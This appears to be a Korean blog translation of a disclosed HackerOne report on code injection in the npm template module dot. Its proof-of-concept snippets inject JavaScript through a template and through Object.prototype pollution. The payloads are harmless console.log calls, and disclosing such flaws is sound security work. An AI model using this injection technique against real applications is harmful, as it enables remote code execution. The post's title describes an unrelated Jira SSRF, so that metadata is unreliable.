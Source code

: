 ```yaml
---
layout: post
title: OAuth Jira 권한부여 컨트롤러 안의 인증되지 않은 blind SSRF
categories: PoC
tags: [Bugbounty, SSRF, Translation, Hackerone]
---
```

출처 : [hackerone hacktivity, 작성자 : Cristian-Alexandru Staicu (cris_semmle)] https://hackerone.com/reports/390929

_[ 본 이슈는 해결 된 상태이며, 취약점은 한국시각으로 2019년 4월 3일 오후 7시 16분에 공개되었습니다. Node.js third-party modules에 리포팅 되었으며, 소스코드는 dot의 자산입니다. 취약점의 종류는 Code Injection이며, 포상금은 없습니다. 해당 취약점은 해당 도메인에서 7.4/10 정도의 심각성을 내포하고 있습니다. ]_
- - -
저는 dot의 코드 인젝션 취약점에 대해 알리고 싶습니다. 이 취약점은 공격자의 임의 JS코드를 실행시킬 수 있게 해주며 특히, 프로토타입 폴루션 공격과 결합할 때 더 심각한 결과를 초래합니다.

# 모듈
* 모듈 이름: dot
* 버전: 1.1.2
* npm 페이지: https://www.npmjs.com/package/dot
  
## 모듈 설명
V8과 Node.js에서의 퍼포먼스가 강조된 빠르고 간결한 자바스크립트 템플릿 함수를 위해 만들어졌습니다. 이 모듈은 Node.js와 브라우저에서의 좋은 퍼포먼스를 보여줍니다.

doT.js는 디팬던시가 없으며 빠르고 경량입니다

## 모듈 스탯
지난주에 76,838 다운로드 횟수를 기록했습니다.
- - -
# 취약점
## 취약점 설명
dot은 템플릿을 컴파일하기 위해 Function()을 씁니다. 만약 해커가 템플릿을 통제할 수 있다거나 Object.prototype의 값을 통제할 수 있다면 이 부분이 공격당할 수 있습니다.

a) 기본적인 공격 벡터
{% highlight html %}
var doT = require("dot");
var tempFn = doT.template("<h1>Here is a sample template " +
    "{{=console.log(23)}}</h1>");
tempFn({})
{% endhighlight %}


b) 프로토타입 폴루션 공격과 결합할 때
* “resources” 라는 이름의 폴더를 생성한 뒤 다음과 같은 내용을 담고있는 “mytemplate.dot”이라는 파일을 생성합니다 :
{% highlight html %}
html <h1>Here is a sample template</h1>
{% endhighlight %}

* resources 폴더를 포함하는 해당 폴더에서, 다음과 같은 js파일을 생성하고 실행합니다 :
{% highlight html %}
js var doT = require("dot"); // prototype pollution attack vector 
Object.prototype.templateSettings = {varname:"a,b,c,d,x=console.log(25)"}; // benign looking template compilation + application 
var dots = require("dot").process({path: "./resources"}); dots.mytemplate();
{% endhighlight %}
컴파일된 템플릿과 안전해보이는 애플리케이션으로 보인다 할지라도 프로토타입 폴루션 공격 때문에 해커는 임의의 코드를 실행할 수 있습니다.  
- - -
# 패치
Function() call (함수 호출) 제거. N/A(해당 없음)  
- - -
# 지원하는 요소나 레퍼런스
취약점이 발견된 스택에 관련된 기술적인 정보들
* MacOs
* NodeJS v8.12.0
* npm 6.4.1

# 정리
* maintainer가 알 수 있도록 컨택했습니다 : No
* 관련된 리포지토리 안의 정보들을 열람했습니다 : No
  
# 영향
만약 해커가 템플릿을 통제할 수 있거나 만약 Object.prototype에 임의의 것들을 설정할 수 있다면 코드 인젝션이나 RCE(Remote Code Execution)을 수행할 수 있습니다.  
runtime computed values와 함께 Function()을 사용하는 것은 거의 안전하지 않습니다.